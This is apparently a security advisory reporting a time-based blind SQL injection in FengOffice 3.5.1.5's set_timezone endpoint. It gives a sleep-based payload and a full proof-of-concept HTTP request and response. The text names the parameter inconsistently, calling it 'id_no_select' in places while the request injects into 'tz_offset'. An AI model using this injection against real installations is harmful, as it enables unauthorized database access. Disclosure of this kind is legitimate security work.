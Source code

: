 # Titles: SQLi in fengoffice_3.5.1.5  
#### Vendor: https://www.fengoffice.com/

#### Software: https://trials.fengoffice.com/register?edition=starter

## Description:

The `id_no_select` parameter appears to be vulnerable to SQL injection attacks. A single quote was submitted in the `id_no_select` parameter, and a general error message was returned. Two single quotes were then submitted and the error message disappeared. You should review the contents of the error message, and the application's handling of other input, to confirm whether a vulnerability is present.  Additionally, the payload '+(select*from(select(sleep(20)))a)+' was submitted in the `id_no_select` parameter. The application took 21140 milliseconds to respond to the request, compared with 355 milliseconds for the original request, indicating that the injected SQL command caused a time delay.

### **1. Vulnerability Description**

The `id_no_select` parameter in FengOffice 3.5.1.5 is vulnerable to **time-based blind SQL injection**.

### Proof of Concept

- Submitting a single quote (`'`) triggered a database error, while two quotes (`''`) suppressed the error, indicating improper input sanitization.
- The payload `'+(select*from(select(sleep(20)))a)+'` caused a delayed response (21,140 ms vs. 355 ms), confirming SQL command execution.

### **2. Vulnerability Details**

- **Type**: SQL Injection (Time-Based Blind)

  Impact

  - Unauthorized database access (data leakage, manipulation, or deletion).
  - Potential compromise of admin credentials or sensitive information.

- Affected Component

  - Endpoint: `/index.php?c=account&a=set_timezone`
  - Parameter: `tz_offset` (via `id_no_select`).

### **3. Proof of Concept (PoC)**

**Exploit Request**:

```http
GET /fengoffice_3.5.1.5/fengoffice_3.5.1.5/index.php?context={}&currentdimension=0&ajax=true&c=account&a=set_timezone&tz_name=Europe%2FSofia&tz_offset=3'%2b(select*from(select(sleep(20)))a)%2b'&_dc=1746872695052 HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=f0keqkg63m62iapui7lch4ed61; http___localhost_fengoffice_3_5_1_5_fengoffice_3_5_1_5id=2; http___localhost_fengoffice_3_5_1_5_fengoffice_3_5_1_5token=5e177a5e794b55bb3f2e58843196e01fc1760008; http___localhost_fengoffice_3_5_1_5_fengoffice_3_5_1_5remember=1
X-Requested-With: XMLHttpRequest
Referer: http://localhost/fengoffice_3.5.1.5/fengoffice_3.5.1.5/index.php?c=access&a=index
Sec-CH-UA: "Chromium";v="136", "Not;A=Brand";v="24", "Google Chrome";v="136"
Sec-CH-UA-Platform: "Windows"
Sec-CH-UA-Mobile: ?0
Content-Length: 0
```

**Response**:

```http
HTTP/1.1 200 OK
Date: Sun, 11 May 2025 06:39:42 GMT
Server: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.15
X-Powered-By: PHP/5.6.15
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: http___localhost_fengoffice_3_5_1_5_fengoffice_3_5_1_5id=2; expires=Sun, 25-May-2025 06:39:43 GMT; Max-Age=1209600; path=/
Set-Cookie: http___localhost_fengoffice_3_5_1_5_fengoffice_3_5_1_5token=5e177a5e794b55bb3f2e58843196e01fc1760008; expires=Sun, 25-May-2025 06:39:43 GMT; Max-Age=1209600; path=/
Set-Cookie: http___localhost_fengoffice_3_5_1_5_fengoffice_3_5_1_5remember=1; expires=Sun, 25-May-2025 06:39:43 GMT; Max-Age=1209600; path=/
Content-Length: 245
Connection: close
Content-Type: text/javascript; charset=UTF-8

{"contents":{},"current":false,"errorCode":0,"errorMessage":"","u":2,"scripts":["http:\/\/localhost\/fengoffice_3.5.1.5\/fengoffice_3.5.1.5\/public\/assets\/javascript\/og\/modules\/addMessageForm.js?rev=1"],"currentPanel":"account","events":[]}
```

